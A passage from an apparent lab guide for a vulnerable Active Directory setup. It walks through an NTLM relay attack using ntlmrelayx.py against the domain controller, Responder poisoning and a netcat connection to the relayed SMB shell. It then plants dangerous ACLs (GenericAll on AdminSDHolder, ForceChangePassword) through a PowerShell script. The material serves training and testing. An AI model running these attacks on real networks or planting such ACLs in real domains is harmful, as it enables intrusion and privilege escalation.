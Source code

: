 2. At the **attacker**, run the following command to prepare the attacker for relaying messages to the DC:
```bash
ntlmrelayx.py -smb2support -t 192.168.122.10 -i
```

3. At the second attacker, first SSH into the attacker using ssh ubuntu@<ip_attacker>. Then launch the Responder in background using:
```bash
./Responder.py -I ens3 -v &
```

4. At DM1, access a non-existing resource such as **\\test** using the **File Explorer**. Now, at both the attackers you should see several messages indicating the success of the attack.
5. Moreover, **ntlmrelayx.py** started an interactive SMB client, typically on 127.0.0.1:11000 (check the address and port number on the output of **ntlmrelayx.py**). Open a reverse shell to this client using `netcat`. The command is:
```bash
nc 127.0.0.1 11000
```

Now you have access to the SMB server. Press ? to see the available options. For instance, shares gives you the list of available shares.


#### ACL
Go to the *ADSI Edit* window. Go to the chosen object to add specific permissions for a given object. In my case, I chose **AdminSDHolder** and **tyrell.wellick**. Go to *Properties* -> *Security* and add an Access Control Entry:

**ForceChangePassword** - check the 'Reset Password' (from user elliot.alderson to user tyrell.wellick)
**GenericAll** - Check every box, so that tyrell.wellick has full control over AdminSDHolder.

**OR**

Apply the following commands in a powershell terminal.

```bash
# https://github.com/davidprowe/BadBlood/blob/master/AD_OU_SetACL/Full%20Control%20Permissions.ps1
Import-Module ActiveDirectory
Set-Location AD:

###########################################################################################################
# SetAcl  $for ---- $right ----> $to
###########################################################################################################
Function SetAcl($for, $to, $right, $inheritance)
{
    $forSID = New-Object System.Security.Principal.SecurityIdentifier (Get-ADUser $for).SID
    $objOU = ($to).DistinguishedName
    $objAcl = get-acl $objOU
    # https://docs.microsoft.com/fr-fr/dotnet/api/system.directoryservices.activedirectoryrights?view=dotnet-plat-ext-5.0
    $adRight =  [System.DirectoryServices.ActiveDirectoryRights] $right # https://docs.microsoft.com/fr-fr/dotnet/api/system.directoryservices.activedirectoryrights?view=dotnet-plat-ext-5.0
    $type =  [System.Security.AccessControl.AccessControlType] "Allow" # https://docs.microsoft.com/fr-fr/dotnet/api/system.security.accesscontrol.accesscontroltype?view=dotnet-plat-ext-5.0
    $inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] $inheritance # https://docs.microsoft.com/fr-fr/dotnet/api/system.directoryservices.activedirectorysecurityinheritance?view=dotnet-plat-ext-5.0
    $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $forSID,$adRight,$type,$inheritanceType
    $objAcl.AddAccessRule($ace)
    Set-Acl -AclObject $objAcl -path $objOU
}
# Add a 'Generic All' ACE to hank.schrader on AdminSDHolder object.
```